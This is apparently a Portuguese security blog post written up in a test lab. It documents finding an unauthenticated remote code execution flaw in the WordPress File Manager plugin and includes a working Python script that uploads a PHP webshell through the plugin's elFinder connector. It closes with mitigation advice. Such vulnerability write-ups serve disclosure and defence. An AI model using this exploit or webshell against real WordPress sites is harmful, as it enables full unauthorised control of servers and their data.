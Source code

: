 ```yaml
---
layout: post-pt
title: Unauth RCE no Wordpress File Manager
permalink: /web/urce-wp-file-manager
---
```


**Atenção**: A técnica demonstrada neste artigo tem o propósito de ser um material educativo, a exploração foi feita em um ambiente controlado. Não realize esta exploração sem a autorização do dono do servidor, pois isto poderá resultar em um crime!

![](/imgs/urce-wp-file-manager/plugin_store.png)

Bom, pra quem ainda não conhece o [Wordpress File Manager](https://br.wordpress.org/plugins/wp-file-manager/) é um plugin do Wordpress que simula a interface de um gerenciador de arquivos, é bem prático.

Usei o docker compose para configurar um ambiente controlado de testes, seguindo o [tutorial oficial](https://docs.docker.com/compose/wordpress/).

![](/imgs/urce-wp-file-manager/docker_compose_config.png)

Também instalei o plugin através da loja do próprio Wordpress.

![](/imgs/urce-wp-file-manager/plugin_wp_file_manager.png)

Vale observar que este plugin tem mais de **700 mil instalações ativas**.

![](/imgs/urce-wp-file-manager/plugin_wp_file_manager_ok.png)

Com o ambiente pronto para os testes, tentei encontrar algum vazamento de informação sensível que talvez fosse causada devido a configuração do container ou do plugin.

Fiz uma wordlist com os arquivos do meu interesse, que poderiam ser acessíveis através do servidor Apache.

![](/imgs/urce-wp-file-manager/leak_check.png)

![](/imgs/urce-wp-file-manager/leak_file_content.png)

Com a wordlist pronta, usei o fuzzer do zaproxy para enviar vários "GET" nos arquivos estando desautenticado.

![](/imgs/urce-wp-file-manager/fuzz_example.png)

Normalmente para aumentar a velocidade do fuzzing, eu reduzo o delay e aumento a quantidade threads.

![](/imgs/urce-wp-file-manager/fuzz_tunning.png)

![](/imgs/urce-wp-file-manager/fuzz_result.png)

Foi relativamente rápido, e obtive 979 resultados para analisar.

Então tive a ideia de filtrar os resultados, analisar possíveis vazamentos em conjuntos menores é mais fácil.

![](/imgs/urce-wp-file-manager/cmd_responses.png)

Sei que pesquisar "cmd" é algo muito genérico, mas consegui um subconjunto bem reduzido para analisar manualmente, apenas 63 respostas.

![](/imgs/urce-wp-file-manager/possible_rce.png)

Quando vi a mensagem de erro na resposta até achei que tinha encontrado uma backdoor :expressionless:, então resolvi pesquisar mais sobre o que esse arquivo faz.

![](/imgs/urce-wp-file-manager/google_elfinder.png)

De cara percebi que não tem um bom histórico.

![](/imgs/urce-wp-file-manager/previus_vulnerability.png)

![](/imgs/urce-wp-file-manager/exploit_poc_previus.png)

![](/imgs/urce-wp-file-manager/elFinder.png)

Já foi [reportado](https://www.secsignal.org/news/cve-2019-9194-triggering-and-exploiting-a-1-day-vulnerability/) uma vulnerabilidade que resulta em RCE no [elFinder](https://github.com/Studio-42/elFinder), então foquei em validar se essa RCE ainda acontece.

{% highlight python %}
#!/usr/bin/env python3

import requests

print('[+] tentando fazer upload da webshell')

base_uri = "http://localhost:8000"
webshell_name = "b4ckd00r.php"

requests.post(
    url=f"{base_uri}/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php",

    files = {
    	'upload[]': (webshell_name, '<?php system($_GET["cmd"]) ?>')
    },

    data = {
    	"cmd" : "upload",
    	"target" : "l1_Lw"
    }
)

print(f'[+] teste sua backdoor: {base_uri}/wp-content/plugins/wp-file-manager/lib/files/{webshell_name}')

{% endhighlight %}

E tive uma surpresa, é permitido o upload de arquivos arbitrários no servidor.

![](/imgs/urce-wp-file-manager/file_upload_clear.png)

![](/imgs/urce-wp-file-manager/backdoor_upload_exec.png)

![](/imgs/urce-wp-file-manager/file_upload_not_clear.png)

Confirmando que consigo realizar o upload de uma webshell, testei se realmente ocorre a interpretação do arquivo PHP ou se há alguma proteção para ser bypassada.

![](/imgs/urce-wp-file-manager/RCE.png)

A webshell "b4ckd00r.php" foi interpretada com sucesso pelo servidor e *voilà*!, **Unauth RCE** :smirk:.

## Mitigação

Uma possível forma de reduzir o impacto dessa vulnerabilidade enquanto não há um patch disponibilizado pelo fornecedor seria mantendo o PHP atualizado e desabilitar as funções críticas, por exemplo: system, exec, shell_exec.

Recomendo seguir a [PHP Configuration Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Configuration_Cheat_Sheet.html) da OWASP.
